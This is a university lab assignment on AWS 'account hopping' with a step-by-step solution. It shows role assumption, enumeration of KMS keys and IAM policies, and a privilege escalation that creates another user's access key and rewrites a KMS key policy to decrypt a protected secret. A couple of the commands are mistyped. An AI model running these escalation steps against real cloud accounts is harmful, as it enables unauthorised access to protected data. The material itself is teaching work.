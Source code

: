 
# Assignment 2: Account Hopping

In addition to the primary `cis21` account (`145214354801`) there is now a second `cis21b` account (`512341796030`). In this account, three secrets are hidden, which you can find:

- The first secret is in the bucket `cis21-secret-1` in the file `secret1.txt`. This one you can directly access from the `cis21` account using the aws CLI.
- The second secret is in the bucket `cis21-secret-2` in the file `secret2.txt`. This bucket can only be accessed directly by assuming the Role `AccessSecret2` in the `cis21b` account.
- Bonus: The third secret is in the bucket .. you guessed it, `cis21-secret-3` in the file `secret3.txt`. You can use the role `AccessSecret3`, for which you need to specify the external ID `cis21`. However, `secret3.txt` is encrypted with a key you don't have access to. Can you still get at the secret?

---

## Solution:
## Task 1
- Every time using the _aws cli_ use `aws-vault exec itsec-cloud -- ` as prefix for each command
- Listing objects in bucket: `aws s3 ls cis21-secret-1`
- Get object from bucket: `aws s3 cp s3://cis21-secret-1/secret1.txt secret1.txt`

## Task 2
- Assume aws role `AccessSecret2` from account `512341796030`: `aws sts assume-role --role-arn "arn:aws:iam::512341796030:role/AccessSecret2" --role-session-name AWSCLI-Session`
- Create environment variables to assume the IAM role and verify access
  1.  Create three environment variables `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY` and `AWS_SESSION_TOKEN` to assume the IAM role. These environment variables are filled out with this output
  2. Verify that you assumed the IAM role by running this command: `aws sts get-caller-identity`
  3. Make that stuff that you want
  4. Unset `unset AWS_ACCESS_KEY_ID AWS_SECRET_ACCESS_KEY AWS_SESSION_TOKEN`
  5. Verify `aws sts get-caller-identity`
- Get object from bucket: `aws s3 cp s3://cis21-secret-2/secret2.txt secret2.txt`

## Task 3
- Assume aws role `AccessSecret3` from account `512341796030` with external id `cis21`: `aws sts assume-role --role-arn "arn:aws:iam::512341796030:role/AccessSecret3" --role-session-name AWSCLI-Session --external-id cis21`
- Create environment variables to assume the IAM role and verify access
  1.  Create three environment variables `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY` and `AWS_SESSION_TOKEN` to assume the IAM role. These environment variables are filled out with this output
  2. Verify that you assumed the IAM role by running this command: `aws sts get-caller-identity`
  3. Make that stuff that you want
  4. Unset `unset AWS_ACCESS_KEY_ID AWS_SECRET_ACCESS_KEY AWS_SESSION_TOKEN`
  5. Verify `aws sts get-caller-identity`
- List objects from bucket: `aws s3 ls s3://cis21-secret-3`
- Identify bucket encryption: `aws s3api get-bucket-encryption --bucket cis21-secret-3`
- List kms keys into local file: `aws kms list-keys < kms_keys.json`
- List aliases of kms keys into local file: `aws kms list-aliases > kms_aliases.json`
- Description of SSE-KMS key into local file: `kms describe-key --key-id 13464f1d-dd12-46ff-a8f7-5edd8e3008e1 > kms_describe_key.json`
- List key policies (result: default) : `aws kms list-key-policies --key-id 13464f1d-dd12-46ff-a8f7-5edd8e3008e1`
- Get key policy of given key into local file: `aws kms get-key-policy --key-id 13464f1d-dd12-46ff-a8f7-5edd8e3008e1 --policy-name default --output text > given_key_policy.json`
- List iam roles into local file: `aws iam list-roles > iam_roles.json`
- List iam policies into local file: `aws iam list-policies > iam_policies.json`
- Get policy for role `AccessSecret3` into local file: `aws iam get-role-policy --role-name AccessSecret3 --policy-name AccessSecret3 > role_AccessSecret3_policy.json`
- Create access token for user `ebke+cis21b@hm.edu`: `aws iam create-access-key --user-name ebke+cis21b@hm.edu`
- Adjust key policy with user `ebke+cis21b@hm.edu`: `aws kms put-key-policy --key-id 13464f1d-dd12-46ff-a8f7-5edd8e3008e1 --policy-name default --policy file://new_key_policy.json`
- Get object from bucket with role `AccessSecret3`: `aws s3 cp s3://cis21-secret-3/secret3.txt secret3.txt`

### What was the problem here?
- You can only get acccess to the role `AccessSecret3` from your user account
- The role `AccessSecret3` got a open policy `AccessSecret3`, which can't be edited cause of beeing in another acccount
- There is no given bucket policy for s3 resource `cis21-secret-3` given
- All objects in bucket `cis21-secret-3` are encrypted with a symmetric self-managed kms key
- The only valid actions according to the kms key policy are `List*`, `Get*` and `Describe*` operations
- In order to download the `secret3.txt` within bucket `cis21-secret-3` you need the permissions `s3:GetObject` and `kms:Decrypt`
- Due to this there is a need for a privilige escalaiton, so that the role `AccessSecret3` get permission `kms:Decrypt`
- Only role `OrganizationAccountAccessRole` wehre no access is given and user `ebke+cis21b@hm.edu` can adjust the kms key policy
- Luckily an access token for `ebke+cis21b@hm.edu` can be created within the scope of role `AccessSecret3`
- Afterwards the key policy will be updated, so that role `AccessSecret3` gets permission `kms:Decrypt`
- Now the `secret3.txt` can be successfully be downloaded

---

## Secrets:
- Content of `secret1.txt`: `The password is "swordfish"`
- Content of `secret2.txt`: `May the source be with you.`
- Content of `secret3.txt`: `Congratulations, you made it! The secret pumpkin is under the pink helicopter.`

---

## Important links
- https://awscli.amazonaws.com/v2/documentation/api/latest/index.html
- https://awscli.amazonaws.com/v2/documentation/api/latest/reference/s3/index.html
- https://awscli.amazonaws.com/v2/documentation/api/latest/reference/s3api/index.html
- https://awscli.amazonaws.com/v2/documentation/api/latest/reference/kms/index.html
- https://awscli.amazonaws.com/v2/documentation/api/latest/reference/iam/index.html
- https://aws.amazon.com/premiumsupport/knowledge-center/iam-assume-role-cli/
- https://docs.aws.amazon.com/AmazonS3/latest/userguide/default-bucket-encryption.html
- https://awscli.amazonaws.com/v2/documentation/api/latest/reference/iam/create-access-key.html
- https://docs.aws.amazon.com/cli/latest/reference/kms/put-key-policy.html
- https://aws.amazon.com/premiumsupport/knowledge-center/decrypt-kms-encrypted-objects-s3/
- https://docs.aws.amazon.com/AmazonS3/latest/userguide/serv-side-encryption.html
